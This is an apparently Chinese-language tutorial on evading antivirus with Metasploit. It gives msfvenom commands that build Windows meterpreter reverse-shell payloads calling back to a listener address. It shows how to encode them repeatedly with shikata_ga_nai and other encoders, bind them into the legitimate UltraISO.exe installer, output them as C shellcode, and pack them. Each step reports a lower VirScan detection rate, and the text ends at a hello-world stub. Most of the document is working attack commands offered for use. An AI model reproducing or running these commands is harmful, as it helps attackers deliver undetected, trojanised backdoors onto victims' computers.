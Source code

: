 杀软是如何检测出恶意代码的？
特征码、启发式恶意软件检查和行为。
免杀是做什么？
对特征进行混淆，打乱代码，避免杀毒软件查杀
免杀的基本方法有哪些？
自编码处理  自捆绑+编码  多重编码   接口下载式  签名伪装式

针对杀毒软件的基本检测方法，我们可有以下几种方法实现免杀：

改变特征码
改变行为
其它

由于msf被各大安全厂商盯的比较紧，所以这些常规的方法免杀效果肯定是比较差的，但有时把一两种常规方法稍微结合一下就能达到比较好的免杀效果

要用到的在线查毒工具virscan提供

https://www.virscan.org/

# 一、不处理payload直接生成样本进行检测

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.32 LPORT=4456 -f exe -o payload1.exe

![1645511560404](02 msf编码免杀.assets/1645511560404.png)

进行查毒有41%的杀毒软件报毒了

具体查毒链接：https://r.virscan.org/language/en/report/27ea53bab44e0a023b57c27991f02cf9

![1645511550808](02 msf编码免杀.assets/1645511550808.png)

# 二、 MSF自编码处理payload生成样本进行检测

首先我们输入   msfvenom --list encoders   查看可以用编码模块

![1645511543145](02 msf编码免杀.assets/1645511543145.png)

我们使用  x86/shikata_ga_nai 模块 免杀中使用频率最高的一个编码器

msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai HOST=192.168.110.110  LPORT=4456 -f exe -o payload1.exe

进行查毒有37%的杀毒软件报毒了

![1645511533351](02 msf编码免杀.assets/1645511533351.png)

# 三、MSF自捆绑处理payload生成样本进行检测

使用msfvenom的-x参数可以指定一个可执行文件,将payload与其捆绑

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -x UltraISO.exe -f exe -o payload2.exe

![1645511525813](02 msf编码免杀.assets/1645511525813.png)

进行查毒有37%的杀毒软件报毒了

![1645511516751](02 msf编码免杀.assets/1645511516751.png)

# 四、MSF自捆绑+编码处理payload生成样本进行检测

结合第二种，第三种。编码方式我们再次生成样本

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 10 -f exe -o payload3.exe

![1645511507586](02 msf编码免杀.assets/1645511507586.png)

进行查毒有31%的杀毒软件报毒了

![1645511497457](02 msf编码免杀.assets/1645511497457.png)

那我们继续增加编码次数

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -e x86/shikata_ga_nai -x UltraISO.exe  -i 20 -f exe -o payload4.exe

进行查毒有27%的杀毒软件报毒了!

![1645511487704](02 msf编码免杀.assets/1645511487704.png)

# 五、MSF多重编码payload生成样本进行检测

通过管道，让msfvenom用不同编码器反复编码进行混淆。使用管道让msfvenom对攻击载荷多重编码，先用shikata_ga_nai编码10次，接着来10次的alpha_upper编码，再来10次的countdown编码，最后才生成以payload5.exe为模板的可执行文件。

msfvenom  -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=192.168.110.110 LPORT=4456 -f raw | msfvenom -e x86/alpha_upper -i 10 -f raw | msfvenom -e x86/countdown -i 10 -x UltraISO.exe -f exe -o payload5.exe

# 六、 生成Shellcode使用C语言调用

1、直接在linux中利用msf的meterpreter生成的文件以.c形式文件存储，得到机器码。命令：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.110.110 LPORT=4456 -f c >c0001.c

![1645511458128](02 msf编码免杀.assets/1645511458128.png)

2、改c文件，并编译，并加壳

![1645511469800](02 msf编码免杀.assets/1645511469800.png)

随便写一个hello world

main() {
printf("hello world\n");
}

然后编译 并加壳

vmp加壳工具